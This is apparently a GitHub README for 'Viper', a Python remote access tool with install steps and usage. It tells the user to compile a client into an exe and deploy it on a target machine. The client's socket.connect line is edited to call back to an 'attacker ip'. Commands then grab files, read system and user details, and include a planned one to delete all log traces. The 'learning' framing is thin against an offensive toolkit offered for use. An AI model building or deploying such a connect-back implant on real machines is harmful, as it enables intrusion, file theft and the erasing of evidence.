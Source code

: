 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

***VIPER***

"""
This is viper and designed to control remote fangs that get deployed on computers in defense of exploitation frameworks!
Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensible actions.
This also has team server capabilities *Still working out bugs

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops

viper has been tested on kali 2.0

***The installer.sh will do this for you***

usage
chmod +x installer.sh
./installer.sh
The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 
You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick help
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

***libraries installed and current requirements check install.sh for mods***
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

Usage:

***to start the viper console:***

Navigate into the payloads and change the ip address and port number inside the client

$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh

***usage:***

start the handler first and then start the client on the target machine

viper main commands:


[+] handler ========= > "starts the viper server and waits for a call back" 

[*] client2exe ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


viper connection commands:
use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo


Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request

